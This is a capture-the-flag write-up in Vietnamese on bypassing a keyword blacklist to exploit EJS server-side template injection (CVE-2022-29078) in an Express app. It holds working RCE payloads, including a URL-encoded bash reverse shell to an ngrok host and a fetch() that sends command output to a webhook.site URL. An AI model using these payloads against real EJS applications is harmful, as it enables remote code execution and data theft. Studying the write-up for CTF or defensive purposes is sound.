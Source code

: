 # Web/🎓🌎 Express JavaScript Security

![image-20230613222502698](./assets/image-20230613222502698.png)

`main.js`

```javascript
const express = require('express');
const ejs = require('ejs');

const app = express();

app.set('view engine', 'ejs');

const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]

app.get('/', (req, res) => {
    return res.render('index');     
});

app.get('/greet', (req, res) => {
    
    const data = JSON.stringify(req.query);

    if (BLACKLIST.find((item) => data.includes(item))) {
        return res.status(400).send('Can you not?');
    }

    return res.render('greet', {
        ...JSON.parse(data),
        cache: false
    });
});

app.listen(3000, () => {
    console.log('Server listening on port 3000')
})
```

Trang web này chỉ có một chức năng sử dụng các param để render ra file `greet.ejs`

![image-20230613223242240](./assets/image-20230613223242240.png)

```ejs
<html>

<body>
    <h1 style="font-family: <%= font %>; font-size: <%= fontSize %>px;">
        Hello <%= name %>
    </h1>
</body>

</html>
```

Nhưng mà đầu vào đã bị filter bằng một blacklist, nhìn vào blacklist này và phiên bản ejs trong `package.json` thì mình cũng đoán được khả năng cao bài này là lỗi `SSTI in ejs` [CVE-2022-29078](https://github.com/advisories/GHSA-phwq-j96m-2c2q), và mình cần bypass filter này để RCE thực thi file `/readflag` 

```javascript
const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]
```

Trong đó thì `escapseFunction` cũng có thể sử dụng để tạo RCE gadget [EJS@3.1.9 has a server-side template injection vulnerability (Unfixed)](https://github.com/mde/ejs/issues/735)

Và option này cũng có thể thay thế bằng `opts.escape` nên mình có thể thử sử dụng `opts.escape` để bypass blacklist

```javascript
options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
```

![image-20230613233033285](./assets/image-20230613233033285.png)

![image-20230613233046446](./assets/image-20230613233046446.png)

RCE gadget này sẽ hoạt động nếu như giá trị của `opts.client` là `true`

```javascript
    if (opts.client) {
      src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
      if (opts.compileDebug) {
        src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
      }
    }
```

payload

```
http://localhost:3000/greet?name=abc&font=Arial&fontSize=20&settings[view%20options][client]=true&settings[view%20options][escape]=1;return%20global.process.mainModule.constructor._load(%27child_process%27).execSync(%27calc%27);
```

kết quả

![image-20230613233924823](./assets/image-20230613233924823.png)

Reverse shell

```
GET /greet?name=abc&font=Arial&fontSize=20&settings[view%20options][client]=true&settings[view%20options][escape]=1;return%20global.process.mainModule.constructor._load(%27child_process%27).execSync(%27%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%30%2e%74%63%70%2e%61%70%2e%6e%67%72%6f%6b%2e%69%6f%2f%31%38%34%34%30%20%30%3e%26%31%22%27);
```

Kết quả:

![image-20230613234255101](./assets/image-20230613234255101.png)

`Flag: SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}`

Đọc flag bằng cách đọc error message. `cre: jaelkoh`

```
http://ejs.web.seetf.sg:1337/greet?name=`whoami`&font=Arial&fontSize=a&settings[view%20options][escape]=`${process.mainModule.require(%27child_process%27).execSync(%27touch+$`/readflag`%27)}`&settings[view%20options][client]=lol
```

![image-20230613234537740](./assets/image-20230613234537740.png)

Tạo một hàm mới return nội dung của `/readflag`. `cre: maple3142`

```
curl 'http://ejs.web.seetf.sg:1337/greet' -G --data-urlencode 'settings[view%20options][debug]=true' --data-urlencode 'settings[view%20options][client]=true' --data-urlencode 'settings[view%20options][escape]=(() => {});return process.mainModule.require("child_process").execSync("/readflag").toString()'
```

![image-20230613234826179](./assets/image-20230613234826179.png)

Sử dụng `fetch` để gửi request lên exploit server. `cre: hulitw`

```
http://ejs.web.seetf.sg:1337/greet?name=a&font=Arial&fontSize=20&settings[view%20options][escape]=JSON.stringify;fetch('https://webhook.site/5a2ad9d5-32af-4793-8748-81697c3bc253?q='%2bprocess.mainModule.require('child_process').execSync('/readflag'));&settings[view%20options][client]=1
```

![image-20230613235018039](./assets/image-20230613235018039.png)